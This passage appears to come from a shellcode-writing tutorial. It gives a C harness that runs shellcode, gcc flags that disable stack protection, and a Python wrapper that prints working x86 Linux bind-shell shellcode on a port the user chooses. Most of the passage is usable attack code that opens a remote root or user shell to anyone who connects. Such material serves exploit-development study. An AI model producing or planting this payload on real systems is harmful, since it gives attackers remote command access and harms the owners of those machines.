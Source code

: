 ```c
main()
{
       printf("Shellcode Length:  %d\n", strlen(code));
       int (*ret)() = (int(*)())code;
       ret();
}
```

Compile with `gcc -fno-stack-protector -z execstack shellcode.c -o shellcode`. Shellcode length is 110.

## Making the listening port configurable

Right now the port `1337` is hardcoded, let's make a wrapper script in python which allows for setting a custom port.


```python
#!/usr/bin/env python3

import sys

def main(port):

    str_port = hex(port).replace('0x','').zfill(4)

    shellcode = r"\x31\xc0\x31\xdb\x31\xd2\xb0\x66\xb3\x01\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\xb3\x02\x52\x66\x68{port}\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x6a\x02\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x52\x52\x57\x89\xe1\xcd\x80\x89\xc7\xb0\x3f\x89\xfb\x89\xd1\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xc0\xb0\x0b\xcd\x80"

    hex_port = "\\x{}\\x{}".format(str_port[:2], str_port[2:])

    if "\\x00" in hex_port:
        print("[-] Sorry, null byte found in that port, chose another port.")
        print("[-] Ports between 1-256 will always contain a null byte.")
        print("[-] Port: {}".format(hex_port))
        sys.exit(1)

    shellcode = shellcode.replace("{port}", hex_port)
    print("[+] Bind shell running on port {}".format(port))
    print("[+] Your Shellcode:")
    print(shellcode)


if __name__ == "__main__":
    if len(sys.argv) == 1:
        print("Usage: python3 wrapper.py <port>")
        sys.exit(0)

    if int(sys.argv[1]) < 1024:
        print("[!] Warning: Ports < 1024 must be run as a root")

    if len(sys.argv) == 2:
        if (int(sys.argv[1]) > 65535):
            print("Port too large")
            sys.exit(1)
        main(int(sys.argv[1]))
    else:
        main(1337)
```

